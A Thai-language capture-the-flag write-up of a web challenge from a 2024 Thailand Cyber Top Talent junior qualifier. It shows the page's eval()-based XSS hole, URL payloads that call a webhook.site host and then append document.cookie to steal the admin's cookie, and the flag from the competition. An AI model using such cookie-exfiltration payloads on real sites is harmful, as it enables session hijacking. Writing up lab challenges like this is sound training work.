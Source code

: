 ```yaml
---
title: THCTT Qualifier (Junior) - DM Me
published: 2024-09-29
image: 'cover.png'
tags: ['Thailand Cyber Top Talent', 'Web Security']
category: 'CTF-Writeup'
draft: false 
language: 'th'
---
```


:::note
โจทย์ระดับ**ยาก**ของหมวดหมู่ Web Application ที่มีคน Solve ได้น้อยมากๆๆๆ
:::

ถ้าจำไม่ผิด คำอธิบายจะบอกว่า ให้รันโค้ด Javascript ให้ได้ และส่งข้อความไปยังผู้ดูแลระบบ มั้ง

ซึ่งถ้ามาแนว report แบบนี้ หนีไม่พ้น XSS แน่นอน อยู่ที่ว่าจะป้องกันดีขนาดไหน

อย่างแรกที่ผมทำก็คือ view page source เลย

จะพบโค้ดชุดนี้

```js
<script>
    // JavaScript for showing stickers based on URL parameter
    function showSticker() {
        const params = new URLSearchParams(window.location.search);
        const stickerId = params.get('id');
        if (stickerId) {
            document.getElementById('sticker-display').innerHTML = `<h3>${stickerId}</h3>`;
            // Vulnerable to XSS if 'id' contains malicious script code
            eval(stickerId);
        }
    }
</script>
```

ซึ่ง มันก็เขียนไว้เลยว่ามีช่องโหว่ บอกด้วยว่าช่องโหว่อะไร และทำยังไง

เหลือแค่ให้ exploit script มาด้วย น่าจะจบแล้วข้อนี้ แต่ไม่มีมาให้หรอก😳

แล้วผมก็ลองเช็คดูว่ามัน XSS ได้จริงป่าว ด้วยการใส่คำสั่ง Javascript ง่ายๆเข้าไป

![alt text](image.png)

โอเค แจ๋ววว

![alt text](image-1.png)

ต่อไปผมจะลองให้มัน Trigger ไปที่ webhook ที่ผมเตรียมไว้

`http://thctt24.junior.web3.local/?id=fetch(%22https://webhook.site/redacted%22)`

![alt text](image-2.png)

โอเคมาจริงง

![alt text](image-3.png)

ผมก็เลย เอาลิ้งนั้นไปส่งให้ผู้ดูแลระบบ

![alt text](image-4.png)

ที่ผมต้องเพิ่ม :3000 ต่อท้าย domain ก็คือ ใน docker ผมเปิดเป็น port 3000 ไว้

นี่่่ เราจะเห็นว่า request มาจากเครื่องผู้ดูแลระบบจริง ไม่ใช่เครื่องเรา

![alt text](image-5.png)

ในเมื่อผู้ดูแลเข้ามาในหน้านี้ได้แล้ว ยังไงก็ต้องมี Cookie แนบมาด้วยแน่นอน เลยขอส่องหน่อยละกัน

`http://thctt24.junior.web3.local:3000/?id=fetch(%22https://webhook.site/redacted/%22%2Bdocument.cookie)`

โอเค ผ่านฉลุยย

![alt text](image-6.png)

เราก็จะได้ FLAG มาแล้วว

![alt text](image-7.png)

อันนี้ FLAG จากในงานแข่งเลย

`THCTT24{840524576a4723b08d0ec38db4fb384a}`